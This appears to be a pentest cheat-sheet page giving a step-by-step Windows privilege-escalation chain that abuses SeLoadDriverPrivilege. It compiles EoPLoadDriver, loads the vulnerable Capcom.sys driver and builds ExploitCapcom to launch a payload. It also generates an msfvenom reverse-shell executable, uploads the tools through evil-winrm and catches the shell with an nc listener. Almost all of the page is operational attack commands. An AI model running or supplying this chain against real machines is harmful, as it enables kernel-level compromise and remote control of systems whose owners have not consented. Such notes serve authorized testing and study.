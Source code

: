 ```yaml
---
title: "SeLoadDriverPrivilege"
date: 2024-7-18
tags: ["SeLoadDriverPrivilege", "privesc", "Windows", "Backup Operators", "diskshadow", "secretsdump"]
---
```


### Abuse #1: Install malicious driver

#### 1. Compile eoploaddriver

<div>

```console
+---------------------------------------------------------------------------------------+
| 1. Open Visual Studio 2022                                                            |
| 2. Create a new project                                                               |
| 3. Project Template : C++ Console App                                                 |
| 4. Project Name     : Eoploaddriver                                                   |
| 5. Replace code     : eoploaddriver.cpp                                               |
| 6. Remove header    : `include "stdafx.h"`                                            |
| 7. Release -> x64                                                                     |
| 8. Build   -> Build Solution                                                          |
| 9. Exported to C:\Users\user\source\repos\Eoploaddriver\x64\Release\Eoploaddriver.exe |
+---------------------------------------------------------------------------------------+
```

</div>

<small>*Ref: [eoploaddriver.cpp](https://github.com/TarlogicSecurity/EoPLoadDriver/blob/master/eoploaddriver.cpp)*</small>

#### 2. Download Capcom.sys

[Capcom.sys](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys)

#### 3. Compile ExploitCapcom

<div>

```console
+----------------------------------------------------------------------------------------+
| 1. Double click ExploitCapcom.sln                                                      |
| 2. Replace the payload to `TCHAR CommandLine[] = TEXT("C:\\Windows\\Tasks\\rev.exe");` |
| 3. Release -> x64                                                                      |
| 4. Build   -> Build Solution                                                           |
| 5. Exported to .\x64\Release\ExploitCapcom.exe                                         |
+----------------------------------------------------------------------------------------+
```

</div>

<small>*Ref: [ExploitCapcom](https://github.com/tandasat/ExploitCapcom/tree/master/ExploitCapcom)*</small>

#### 3. Create stageless payload

<div>

```console
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> -f exe -o rev.exe
```

</div>

#### 4. Upload

<div>

```console
# For example (evil-winrm)
upload Eoploaddriver.exe C:\ProgramData\Eoploaddriver.exe
```

```console
upload Capcom.sys C:\ProgramData\Capcom.sys
```

```console
upload ExploitCapcom.exe C:\ProgramData\ExploitCapcom.exe
```

```console
upload rev.exe C:\ProgramData\rev.exe
```

</div>

#### 5. Exploit

<div>

```console
# Start a nc listener
rlwrap nc -lvnp <LOCAL_PORT>
```

```console
C:\ProgramData\Eoploaddriver.exe System\CurrentControlSet\test C:\ProgramData\Capcom.sys
```

```console
C:\ProgramData\ExploitCapcom.exe
```

</div>

<br>